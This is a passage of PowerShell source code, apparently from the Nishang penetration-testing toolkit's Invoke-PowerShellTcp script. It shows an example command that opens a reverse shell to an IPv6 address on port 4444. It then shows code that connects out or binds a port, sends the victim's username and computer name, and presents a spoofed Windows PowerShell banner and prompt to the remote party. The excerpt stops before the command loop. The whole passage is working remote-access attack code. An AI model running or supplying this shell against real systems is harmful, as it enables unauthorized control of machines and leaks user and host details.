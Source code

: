 ```
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

```